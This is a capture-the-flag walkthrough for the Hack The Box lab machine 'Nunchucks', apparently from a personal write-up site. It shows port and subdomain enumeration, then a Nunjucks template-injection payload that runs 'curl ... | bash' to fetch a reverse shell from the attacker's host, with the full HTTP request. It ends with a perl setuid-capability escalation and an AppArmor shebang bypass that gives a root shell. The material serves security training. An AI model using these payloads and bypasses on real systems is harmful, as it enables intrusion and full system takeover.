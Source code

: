 # Nunchucks

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.252
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 04:51 EDT
Nmap scan report for 10.129.95.252
Host is up (0.016s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

We have to add `nunchucks.htb` to our `/etc/hosts` file to access port 80.

### Web Enum

Port 80 reveals an ecommerce platform.

<figure><img src="../../../.gitbook/assets/image (676).png" alt=""><figcaption></figcaption></figure>

Registering is closed:

<figure><img src="../../../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

There wasn't much on the website and it looks rather static, so we can do some subdomain and directory fuzzing. Using `wfuzz`, I found out there was a `store` subdomain.

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.nunchucks.htb' --hw=2271 https://nunchucks.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nunchucks.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000037:   200        101 L    259 W      4028 Ch     "store"
```

### Email SSTI --> Shell

This was another store:

<figure><img src="../../../.gitbook/assets/image (37) (7).png" alt=""><figcaption></figcaption></figure>

When we submit an email, it would print it back on the screen.

<figure><img src="../../../.gitbook/assets/image (39) (10).png" alt=""><figcaption></figcaption></figure>

The box name was a hint that it was using NUNJUCKS, so we can try some SSTI here. We can verify it works by using `{{7*7}}` as part of the email:

<figure><img src="../../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

Using this, we can start to gain a reverse shell using SSTI for RCE. If we analyse the HTTP traffic, we can see that the emails are being sent to `/api/submit` and processed.&#x20;

<figure><img src="../../../.gitbook/assets/image (41) (1).png" alt=""><figcaption></figcaption></figure>

Using this, we can start to generate a payload:

{% code overflow="wrap" %}
```javascript
{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl 10.10.14.13/shell|bash')")()}}
```
{% endcode %}

Here's the final request I used to get a shell:

{% code overflow="wrap" %}
```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=sS5N1jkHeT3qF-BegglaZv_v
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 141
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close



{
    "email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.13/shell.sh|bash')\")()}}"
}
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (673).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation

### Perl Capabilities

Within the `/opt` directory, there's a few files:

```
david@nunchucks:/opt$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Oct 28  2021 .
drwxr-xr-x 19 root root 4096 Oct 28  2021 ..
-rwxr-xr-x  1 root root  838 Sep  1  2021 backup.pl
drwxr-xr-x  2 root root 4096 Oct 28  2021 web_backups
```

The first few lines of `backup.pl` stand out to me:

```perl
david@nunchucks:/opt$ cat backup.pl 
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0);
```

It seems that the perl script is able to run `setuid(0)`. This means that it's probably being run as `root` or it just has the capability to do so. We can enumerate this using `getcap`:

```
david@nunchucks:/opt$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```

This confirms that we can just run this command torun commands and spawn a `root` shell:

```
david@nunchucks:/opt$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
david@nunchucks:/opt$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:/opt$
```

Interestingly, it does not let us spawn a shell. There's an application that is blocking us.&#x20;

### AppArmor Bypass --> Shell

While reading about security programs in Linux, I ran the `aa-status` command and confirmed that AppArmor is running:

```
david@nunchucks:/opt$ aa-status
apparmor module is loaded.
You do not have enough privilege to read the profile set.
```

This program is a kernel enhancement to confine programs to a limited set of resources, thus explaining why `perl` can only run simple commands and we can't spawn shells. There are bugs on Hacktricks that explain how to bypass these using a shebang.

{% embed url="https://bugs.launchpad.net/apparmor/+bug/1911431" %}

We just have to run these:

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```

<figure><img src="../../../.gitbook/assets/image (29) (8).png" alt=""><figcaption></figcaption></figure>
